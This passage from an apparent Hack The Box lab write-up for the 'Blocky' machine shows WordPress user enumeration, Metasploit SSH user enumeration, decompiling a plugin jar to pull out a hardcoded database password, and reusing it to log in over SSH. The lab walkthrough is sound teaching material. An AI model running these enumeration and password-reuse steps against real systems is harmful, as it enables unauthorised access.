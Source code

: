 ```
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
we can check if this user is also available for ssh login.  
To check this we can use the metasploit module ```scanner/ssh/ssh_enumusers``` and set the options as follows
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.10.37
RHOSTS => 10.10.10.37
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set username notch
username => notch
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.10.37:22 - SSH - Using malformed packet technique
[*] 10.10.10.37:22 - SSH - Starting scan
[+] 10.10.10.37:22 - SSH - User 'notch' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Now, let's go now to the /plugins directory.  
Here we can find two .jar files hosted: "BlockyCore.jar" and "griefprevention-1.11.2-3.1.1.298.jar".  
.jar file are nothing else but archives, to extract this archive we can use zip command.  
when we extract archives we can se .class file.  
To decompile class files we can use ```jad``` (or ```jd-gui``` with the UI) and here we get the .jad file with the code in a readable format
## User
### Method 1 - Class File Decompile and Password Reuse
Using jad, we can decompile ```BlockyCore.class``` and get the .jad file by simply running:
```
jad BlockyCore.class
```
as we can see, after opening the jad file we can se the following lines:
```
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
Now we can try to login as root/notch to the machine and see if we do get any luck.
```
[root@kali Blocky ]$ ssh $TARGET -l notch
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$
```
Now we got user.
